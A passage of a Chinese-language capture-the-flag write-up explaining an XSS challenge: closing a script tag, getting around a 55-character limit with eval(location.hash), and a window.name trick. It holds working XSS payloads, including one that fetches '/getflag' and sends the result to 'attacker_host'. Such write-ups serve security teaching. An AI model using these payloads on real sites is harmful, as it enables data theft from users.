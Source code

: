 - PoC 0x02:
    Use pure `location` with `document.write`.
    
    ```
    http://quiz.ais3.org:8003/
    ?message=</script><script>document.write(decodeURI(location))//
    &</script><img src=x onerror=fetch('/getflag').then(function(r){return/**/r.text()}).then(function(r){location='http://attacker_host/'+r})><!--
    ```

#### Step 1: `alert(1)`

你各位 XSS 的第一步肯定是想先 alert 個東西出來吧，那麼，要怎麼執行出最簡單的 JavaScript 呢？

由於是一個黑箱題，大家會嘗試的第一步應該會是試著 escape 出雙引號的包圍，但由於這是 `json.dumps` 出來的結果所以並不可行。但應該還是能很快的發現它沒過濾掉 `>`, `<`, `/` 等特殊字元，所以只要用 `</script>` 閉合掉前面的 `<script>`，接著就能開始寫入任意的 HTML 了。

而要達成 alert(1) 最短的 payload 應該是這樣：`/?message=</script><script>alert(1)//`

這一步我猜大部分有認真看這題的人都有做到（？）

#### Step 2: Full XSS

message 字數限制一共 55 個字元，扣掉必備的`</script><script>` 以及結尾的 `//` 僅僅剩下 36 個字元可用，在這個限制之下，就算你有一個超短的 domain 也還是不可能做到讀取 `/getflag` 再把內容傳出去

這時候該做的思路**不是怎麼把 payload 塞到 55 個字元內**，而是要怎麼把 55 個字元擴展成無限！大致上的想法是，要找到瀏覽器中**是否有一個可以塞任意字串的變數**，接著去 eval 那個變數，目標就達成了

我手邊的幾種可用變數都跟網址有關，畢竟使用者能輕鬆操控、JavaScript 肯定需要存取的東西最容易想到的應該就是網址吧？

- document.URL / location（目前的完整網址）
- location.hash（網址中 #xxx 的部分）
- location.search (網址中 ?key=value&a=b 的部分)

以 `location.hash` 而言，可以用如下 payload。應該可以看得出來是取出 hash 後去掉開頭的 `#`，接著便直接拿去 eval 了。

`/?message=</script><script>eval(location.hash.slice(1))//#alert(1);/*more js here*/`

> 註：其實理論上還有 `window.name` 這個變數可以使用，但這題有限制提交的 XSS 網址必須是同源的因此不能簡單地應用於此。這邊給一個利用的範例：
>
> ```javascript
> // currently on http://attacker.site
> window.name = "payload"
> location = "http://victim.site" // 導向 victim.site 後仍會保留前面設定的 window.name
> ```
>
> 藉此特性其實還能想到一種進階一點的解法：```/?message=</script><script>location=`//attacker.site`//```
>
> 而 `http://attacker.site` 在設定完惡意的 `window.name` payload 後則再度導回此題 `/?message=</script><script>eval(name)//`，如此一來便能利用 `window.name` 達成目標。
>
> 但是這題 xss bot 一開始去登入的其實是 docker 內部設定的 `http://xss-me/` 而非 `http://quiz.ais3.org:8003/`，所以實際上還需要再透過一些技巧把 admin 實際訪問的網址撈出來（e.g. referer），算是一個小 bug （？

#### Step 3: Bypassing CSP
